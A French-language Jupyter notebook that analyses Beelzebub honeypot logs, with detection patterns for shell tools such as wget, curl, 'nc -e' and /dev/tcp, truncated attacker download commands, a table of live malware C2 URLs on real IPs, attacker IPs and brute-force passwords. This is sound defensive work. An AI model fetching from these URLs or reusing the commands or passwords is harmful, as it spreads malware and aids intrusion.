# Analyse Beelzebub Honeypot — Version Interactive JupyterReproduit fidèlement toutes les sections du script Nushell original avec visualisations interactives.## ConfigurationAjuster les chemins ci-dessous selon votre installation.

In [68]:
# ═══════════════════════════════════════════════
# Imports nécessaires
# ═══════════════════════════════════════════════
import matplotlib
matplotlib.use('Agg')
import base64
import gzip
import io
import json
import re
import tempfile
from pathlib import Path
from datetime import datetime
from IPython.display import display, Image

import polars as pl
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
import seaborn as sns

# Configuration des graphiques
plt.style.use('seaborn-v0_8-whitegrid')
sns.set_palette("husl")

def show_plot(fig, name=""):
    """Save figure and display as PNG using IPython display"""
    if name:
        print(f"** {name} **")
    buf = io.BytesIO()
    fig.savefig(buf, format='png', bbox_inches='tight')
    plt.close(fig)
    buf.seek(0)
    display(Image(data=buf.read(), format='png'))

def load_gz_ndjson(path):
    """Load a gzipped NDJSON file into a Polars DataFrame"""
    rows = []
    with gzip.open(path, "rt", encoding="utf-8") as f:
        for line in f:
            line = line.strip()
            if line:
                try:
                    rows.append(json.loads(line))
                except json.JSONDecodeError:
                    continue
    return pl.DataFrame(rows) if rows else pl.DataFrame()

print("[INFO] Imports chargés avec succès")
print(f"[INFO] Polars version: {pl.__version__}")
print(f"[INFO] Matplotlib version: {matplotlib.__version__}")


[INFO] Imports chargés avec succès
[INFO] Polars version: 1.39.3
[INFO] Matplotlib version: 3.11.0


In [69]:
# Configuration des répertoires
LOGDIR = Path('log')
JSONDIR = Path('json')
LOGDIR.mkdir(parents=True, exist_ok=True)
JSONDIR.mkdir(parents=True, exist_ok=True)

# Fonction helper pour afficher les graphiques (enregistrement sur fichier)
def show_plot(fig, name=""):
    """Save figure to file and display as PNG using IPython display"""
    if name:
        print(f"** {name} **")
    filepath = Path('plot.png')
    fig.savefig(filepath, format="png", bbox_inches="tight")
    plt.close(fig)
    display(Image(filename=str(filepath)))


In [70]:
def load_gz_ndjson(path: Path) -> list:
    """Load a gzipped NDJSON file."""
    records = []
    with gzip.open(path, "rt", encoding="utf-8") as f:
        for line in f:
            if not line:
                continue
            try:
                records.append(json.loads(line))
            except json.JSONDecodeError:
                continue
            except Exception:
                continue
    return records


---## 0. Chargement des fichiers de logs

In [71]:
# Load .gz NDJSON files avec tri numérique
def numeric_sort_key(path: Path) -> int:
    """Extraire le numéro du fichier pour un tri numérique."""
    try:
        # beelzebub.json.123.gz -> 123
        return int(path.stem.split(".")[-1])
    except (ValueError, IndexError):
        return 0

filelist = sorted(LOGDIR.glob("beelzebub.json.*.gz"), key=numeric_sort_key)
if not filelist:
    print(f"[ERREUR] Aucun fichier log trouvé dans {LOGDIR}/beelzebub.json.*.gz")
    raise SystemExit(1)
print(f"[INFO] {len(filelist)} fichier(s) log trouvé(s) dans {LOGDIR}/")

all_records = []
for i, path in enumerate(filelist, 1):
    print(f"  [{i}/{len(filelist)}] {path.name}")
    try:
        records = load_gz_ndjson(path)
        all_records.extend(records)
    except Exception as exc:
        print(f"  [WARN] Erreur chargement {path.name} : {exc}")

print(f"[INFO] {len(all_records)} enregistrements bruts chargés.")

df_all = pl.DataFrame(all_records) if all_records else pl.DataFrame()
df_all = df_all.unnest("event") if not df_all.is_empty() else pl.DataFrame()

# Visualisation du chargement
print(f"\n[INFO] Nombre de protocoles distincts: {df_all.get_column('Protocol').n_unique() if not df_all.is_empty() else 0}")
df_all.group_by("Protocol").agg(pl.len().alias("count")).sort("count", descending=True)


[INFO] 30 fichier(s) log trouvé(s) dans log/
  [1/30] beelzebub.json.1.gz
  [2/30] beelzebub.json.2.gz
  [3/30] beelzebub.json.3.gz
  [4/30] beelzebub.json.4.gz
  [5/30] beelzebub.json.5.gz
  [6/30] beelzebub.json.6.gz
  [7/30] beelzebub.json.7.gz
  [8/30] beelzebub.json.8.gz
  [9/30] beelzebub.json.9.gz
  [10/30] beelzebub.json.10.gz
  [11/30] beelzebub.json.11.gz
  [12/30] beelzebub.json.12.gz
  [13/30] beelzebub.json.13.gz
  [14/30] beelzebub.json.14.gz
  [15/30] beelzebub.json.15.gz
  [16/30] beelzebub.json.16.gz
  [17/30] beelzebub.json.17.gz
  [18/30] beelzebub.json.18.gz
  [19/30] beelzebub.json.19.gz
  [20/30] beelzebub.json.20.gz
  [21/30] beelzebub.json.21.gz
  [22/30] beelzebub.json.22.gz
  [23/30] beelzebub.json.23.gz
  [24/30] beelzebub.json.24.gz
  [25/30] beelzebub.json.25.gz
  [26/30] beelzebub.json.26.gz
  [27/30] beelzebub.json.27.gz
  [28/30] beelzebub.json.28.gz
  [29/30] beelzebub.json.29.gz
  [30/30] beelzebub.json.30.gz
[INFO] 42532 enregistrements bruts chargés.

Protocol,count
str,u32
"""SSH""",23692
null,8527
"""HTTP""",5875
"""TCP""",4438


---## 1. Extraction SSH brute + HTTP

In [72]:
# SSH events
dfssh = (
    df_all
    .filter(pl.col("Protocol") == "SSH")
    .select([
        "DateTime", "RemoteAddr", "Protocol", "SourceIp",
        "Command", "Password",
    ])
) if not df_all.is_empty() else pl.DataFrame()

# HTTP events
dfhttp = (
    df_all
    .filter(pl.col("Protocol") == "HTTP")
    .select([
        "DateTime", "RemoteAddr", "Protocol", "SourceIp",
        "Headers", "Cookies", "UserAgent",
        "HostHTTPRequest", "Body", "HTTPMethod",
        "RequestURI", "TLSServerName",
    ])
) if not df_all.is_empty() else pl.DataFrame()

ssh_count = dfssh.height
http_count = dfhttp.height

print(f"[INFO] SSH events: {ssh_count} | HTTP events: {http_count}")
print(f"\n[INFO] Top 5 SSH events:")
dfssh.head()


[INFO] SSH events: 23692 | HTTP events: 5875

[INFO] Top 5 SSH events:


DateTime,RemoteAddr,Protocol,SourceIp,Command,Password
str,str,str,str,str,str
"""2026-07-16T22:04:40Z""","""51.89.235.201:56164""","""SSH""","""51.89.235.201""","""""","""admin123"""
"""2026-07-16T22:10:36Z""","""51.89.235.201:19074""","""SSH""","""51.89.235.201""","""""","""admin123"""
"""2026-07-16T22:15:37Z""","""51.89.235.201:56456""","""SSH""","""51.89.235.201""","""""","""admin123"""
"""2026-07-16T22:20:38Z""","""51.89.235.201:35126""","""SSH""","""51.89.235.201""","""""","""admin123"""
"""2026-07-16T22:25:39Z""","""51.89.235.201:36510""","""SSH""","""51.89.235.201""","""""","""admin123"""


** Graphique 1: Répartition SSH vs HTTP **




In [73]:
fig, axes = plt.subplots(1, 2, figsize=(14, 5))

# Pie chart
protocols = ['SSH', 'HTTP']
counts = [ssh_count, http_count]
colors = ['#e74c3c', '#3498db']
axes[0].pie(counts, labels=protocols, autopct='%1.1f%%', colors=colors, startangle=90)
axes[0].set_title('Répartition des protocoles', fontsize=14, fontweight='bold')

# Bar chart
axes[1].bar(protocols, counts, color=colors, edgecolor='black', linewidth=1.2)
axes[1].set_title('Nombre d\'événements par protocole', fontsize=14, fontweight='bold')
axes[1].set_ylabel('Nombre d\'événements')
axes[1].set_xlabel('Protocole')

for i, v in enumerate(counts):
    axes[1].text(i, v + max(counts) * 0.02, str(v), ha='center', fontweight='bold')

plt.tight_layout()
show_plot(fig, "Graphique 1: Répartition SSH vs HTTP")


---## 2. Commandes de téléchargement (wget/curl/ftp/tftp)

In [75]:
# Download commands (wget/curl/ftp/tftp)
download_commands = (
    dfssh
    .filter(pl.col("Command").str.contains("(?i)(wget|curl|ftp|tftp|nc -e|/dev/tcp)"))
) if not df_all.is_empty() else pl.DataFrame()

print(f'[INFO] {download_commands.height} commandes de téléchargement détectées')
download_commands


[INFO] 133 commandes de téléchargement détectées


DateTime,RemoteAddr,Protocol,SourceIp,Command,Password
str,str,str,str,str,str
"""2026-07-11T00:01:31Z""","""91.92.42.168:60188""","""SSH""","""91.92.42.168""","""curl ipinfo.io/org""",""""""
"""2026-07-10T18:25:17Z""","""13.143.252.11:40686""","""SSH""","""13.143.252.11""","""curl ipinfo.io/org""",""""""
"""2026-07-10T18:26:45Z""","""13.143.252.11:60936""","""SSH""","""13.143.252.11""","""curl ipinfo.io/org""",""""""
"""2026-07-10T18:29:24Z""","""13.143.252.11:48396""","""SSH""","""13.143.252.11""","""curl ipinfo.io/org""",""""""
"""2026-07-09T10:49:00Z""","""45.12.1.49:49291""","""SSH""","""45.12.1.49""","""cd /tmp;rm -f amd64;wget -t 1 …",""""""
…,…,…,…,…,…
"""2026-06-01T03:59:03Z""","""34.73.231.113:49116""","""SSH""","""34.73.231.113""","""echo 'administrator' | sudo -S…",""""""
"""2026-06-01T03:59:03Z""","""34.73.231.113:49120""","""SSH""","""34.73.231.113""","""echo 'server' | sudo -S sh -c …",""""""
"""2026-06-01T03:59:04Z""","""34.73.231.113:49160""","""SSH""","""34.73.231.113""","""echo '123456' | sudo -S sh -c …",""""""


---## 3. URLs de C2 extraites des commandes

In [76]:
# Extract C2 URLs from download commands
import re
urls_list = []
if not download_commands.is_empty():
    for row in download_commands.iter_rows(named=True):
        cmd = row.get("Command") or ""
        found = re.findall(r"https?://[\w\./_\-:@]+", cmd)
        urls_list.extend(found)

# Count occurrences of each URL
from collections import Counter
url_counts = dict(Counter(urls_list)) if urls_list else {}

urls = pl.DataFrame([
    {"URL": url, "count": cnt}
    for url, cnt in url_counts.items()
]).sort("count", descending=True) if url_counts else pl.DataFrame(schema={"URL": str, "count": int})

print(f"[INFO] {urls.height} URLs de C2 distinctes")
urls.head(20)


[INFO] 19 URLs de C2 distinctes


URL,count
str,i64
"""http://35.237.91.38/meow""",72
"""http://35.237.91.38/meowarm64""",72
"""http://34.181.210.37/meow""",28
"""http://34.181.210.37/meowarm64""",28
"""http://195.177.94.72:3594/s/am…",13
…,…
"""http://162.252.198.153:31451/k…",1
"""https://sshx.io/get""",1
"""http://195.177.94.72:564/s/amd…",1


** Graphique 2: Top URLs C2 **




In [77]:
# Graphique 2: Top 15 URLs C2
if urls.height > 0:
    fig, ax = plt.subplots(figsize=(14, 6))

    top_urls = urls.head(15)

    # Tronquer les URLs longues pour la lisibilité
    top_urls = top_urls.with_columns(
        (pl.when(pl.col("URL").str.len_bytes() > 50)
         .then(pl.col("URL").str.slice(0, 47) + "...")
         .otherwise(pl.col("URL"))).alias("URL_short")
    )

    counts = top_urls.get_column("count").to_list()
    max_count = top_urls.get_column("count").max()

    ax.barh(range(len(top_urls)), counts, color="gold", edgecolor="black")
    ax.set_yticks(range(len(top_urls)))
    ax.set_yticklabels(top_urls.get_column("URL_short").to_list(), fontsize=9)
    ax.set_xlabel("Nombre d'occurrences")
    ax.set_title("Top 15 URLs C2 (Command & Control)", fontsize=14, fontweight="bold")
    ax.invert_yaxis()

    for i, v in enumerate(counts):
        ax.text(v + max_count * 0.01, i, str(v), va="center", fontweight="bold")

    plt.tight_layout()
    show_plot(fig, "Graphique 2: Top URLs C2")
else:
    print("[WARN] No C2 URLs found")


---## 4. Détection des mécanismes de persistence

In [78]:
def detect_pattern(df: pl.DataFrame, pattern: str) -> pl.DataFrame:
    """Filter rows matching a pattern."""
    if df.height == 0:
        return pl.DataFrame()
    return df.filter(pl.col("Command").str.contains(f"(?i)({pattern})"))

# Detect various persistence and reconnaissance patterns
cron_persistence = detect_pattern(dfssh, "crontab|cron|/etc/cron")
user_modification = detect_pattern(dfssh, "useradd|usermod|userdel|passwd|adduser|addgroup|deluser|delgroup")
privilege_escalation = detect_pattern(dfssh, "sudo|chmod|chown|setuid|setgid|visudo")
system_modification = detect_pattern(dfssh, "/etc/passwd|/etc/shadow|/etc/sudoers|sshd_config|authorized_keys")
recon_commands = detect_pattern(dfssh, "uname|whoami|ifconfig|ip addr|hostname|netstat|lsof")

print(f"Cron persistence: {cron_persistence.height} events")
print(f"User modification: {user_modification.height} events")
print(f"Privilege escalation: {privilege_escalation.height} events")
print(f"System modification: {system_modification.height} events")
print(f"Reconnaissance: {recon_commands.height} events")


Cron persistence: 59 events
User modification: 117 events
Privilege escalation: 666 events
System modification: 529 events
Reconnaissance: 3693 events


** Graphique 3: Détection des mécanismes de persistence **




In [79]:
# Graphique 3: Détection des mécanismes de persistence
fig, ax = plt.subplots(figsize=(14, 6))

categories = [
    'Cron\nPersistence',
    'Modif.\nUtilisateurs',
    'Privilege\nEscalation',
    'Modif.\nSystème',
    'Reconnaissance'
]

counts = [
    cron_persistence.height,
    user_modification.height,
    privilege_escalation.height,
    system_modification.height,
    recon_commands.height
]

colors = ['#e74c3c', '#e67e22', '#f39c12', '#27ae60', '#3498db']

bars = ax.barh(categories, counts, color=colors, edgecolor='black', linewidth=1.2, height=0.6)
ax.set_xlabel('Nombre d\'événements', fontsize=12)
ax.set_title('Détection des mécanismes de persistence et d\'escalade', fontsize=14, fontweight='bold')
ax.invert_yaxis()

# Ajouter les valeurs sur les barres
for i, (bar, count) in enumerate(zip(bars, counts)):
    width = bar.get_width()
    ax.text(width + max(counts) * 0.01, bar.get_y() + bar.get_height() / 2.,
            str(count), ha='left', va='center', fontweight='bold', fontsize=11)

# Grille
ax.grid(axis='x', linestyle='--', alpha=0.7)
ax.set_axisbelow(True)

plt.tight_layout()
show_plot(fig, "Graphique 3: Détection des mécanismes de persistence")


---## 5. Analyse des mots de passe compromis

In [80]:
# Analyze compromised passwords from SSH attempts
password_analysis = (
    dfssh
    .filter(pl.col("Password").str.len_bytes() > 0)
    .get_column("Password")
    .value_counts()
    .sort("count", descending=True)
) if not df_all.is_empty() else pl.DataFrame(
    schema={"Password": str, "count": int}
)

print(f"[INFO] {password_analysis.height} mots de passe distincts analysés")
password_analysis


[INFO] 1720 mots de passe distincts analysés


Password,count
str,u32
"""admin123""",8143
"""345gs5662d34""",438
"""3245gs5662d34""",431
"""123456""",194
"""0""",187
…,…
"""Lv123456""",1
"""reader""",1
"""camero""",1


** Graphique 4: Mots de Passe Compromis **




In [81]:
# Graphique 4: Top 20 Mots de Passe Compromis
if password_analysis.height > 0:
    fig, ax = plt.subplots(figsize=(14, 8))

    top_passwords = password_analysis.head(20)

    # Tronquer les mots de passe longs
    top_passwords = top_passwords.with_columns(
        pl.when(pl.col("Password").str.len_bytes() > 15)
        .then(pl.col("Password").str.slice(0, 12) + "...")
        .otherwise(pl.col("Password")).alias("pwd_short")
    )

    # Normaliser les counts pour la colormap
    max_count = top_passwords.get_column("count").max()
    colors = plt.cm.RdYlGn_r([c / max_count for c in top_passwords.get_column("count").to_list()])

    ax.barh(range(len(top_passwords)), top_passwords.get_column("count").to_list(), color=colors, edgecolor='black')
    ax.set_yticks(range(len(top_passwords)))
    ax.set_yticklabels(top_passwords.get_column("pwd_short").to_list(), fontsize=9)
    ax.set_xlabel('Nombre d\'occurrences')
    ax.set_title('Top 20 Mots de Passe Compromis', fontsize=14, fontweight='bold')
    ax.invert_yaxis()

    for i, v in enumerate(top_passwords.get_column("count").to_list()):
        ax.text(v + max_count * 0.01, i, str(v), va='center', fontweight='bold')

    plt.tight_layout()
    show_plot(fig, "Graphique 4: Mots de Passe Compromis")
else:
    pass


---## 6. Score d'intensité par attaquant (SourceIp)

In [82]:
# Attack scoring rules
attack_rules = [
    {"category": "Brute Force", "pattern": "Failed|authentication failure|Invalid", "pts": 1},
    {"category": "Download", "pattern": "wget|curl|ftp|tftp|nc -e", "pts": 3},
    {"category": "Persistence", "pattern": "crontab|cron|/etc/cron", "pts": 5},
    {"category": "Escalation", "pattern": "sudo|chmod|chown|setuid", "pts": 5},
    {"category": "Reconnaissance", "pattern": "uname|whoami|ifconfig|ip addr|netstat|lsof", "pts": 2},
]

all_scores = []
for rule in attack_rules:
    matched = (
        dfssh
        .filter(pl.col("Command").str.contains(f"(?i)({rule['pattern']})"))
    ) if not df_all.is_empty() else pl.DataFrame()
    if not matched.is_empty():
        ip_counts = matched.get_column("SourceIp").value_counts()
        ip_counts = ip_counts.with_columns(
            pl.Series("category", [rule["category"]] * ip_counts.height),
            pl.Series("pts", [rule["pts"]] * ip_counts.height),
        )
        all_scores.append(ip_counts)

# Build the combined attack scores DataFrame
all_scores_df = pl.concat(all_scores) if all_scores else pl.DataFrame(
    schema={"SourceIp": str, "count": int, "category": str, "pts": int}
)
attack_scores = (
    all_scores_df
    .group_by("SourceIp")
    .agg([
        pl.col("count").sum().alias("total_count"),
        pl.col("pts").sum().alias("total_score"),
    ])
    .sort("total_score", descending=True)
)
print(f"[INFO] {attack_scores.height} IPs dans le score final")
attack_scores.head(10)


[INFO] 492 IPs dans le score final


SourceIp,total_count,total_score
str,u32,i64
"""14.103.107.214""",6,12
"""223.247.218.112""",6,12
"""14.103.112.122""",6,12
"""115.191.27.238""",6,12
"""101.126.53.14""",6,12
"""121.229.9.97""",6,12
"""180.153.91.15""",6,12
"""150.139.194.15""",6,12
"""106.38.195.164""",7,12


** Graphique 5: Score d'intensité par IP **




In [83]:
# Graphique 5: Score d'intensité par IP
if attack_scores.height > 0:
    fig, ax = plt.subplots(figsize=(14, 8))

    top_attackers = attack_scores.head(20)

    # Tronquer les IPs longues si nécessaire
    top_attackers = top_attackers.with_columns(
        pl.col("SourceIp").str.slice(0, 15).alias("ip_short")
    )

    max_score = top_attackers.get_column("total_score").max()
    colors = plt.cm.Reds([0.3 + 0.7 * (s / max_score) for s in top_attackers.get_column("total_score").to_list()])

    ax.barh(range(len(top_attackers)), top_attackers.get_column("total_score").to_list(), color=colors, edgecolor='black')
    ax.set_yticks(range(len(top_attackers)))
    ax.set_yticklabels(top_attackers.get_column("ip_short").to_list(), fontsize=9)
    ax.set_xlabel('Score d\'intensité')
    ax.set_title('Top 20 Attaquants par Score d\'Intensité', fontsize=14, fontweight='bold')
    ax.invert_yaxis()

    for i, v in enumerate(top_attackers.get_column("total_score").to_list()):
        ax.text(v + max_score * 0.01, i, str(v), va='center', fontweight='bold')

    plt.tight_layout()
    show_plot(fig, "Graphique 5: Score d'intensité par IP")
else:
    pass


** Graphique 6: Catégories d'attaque **


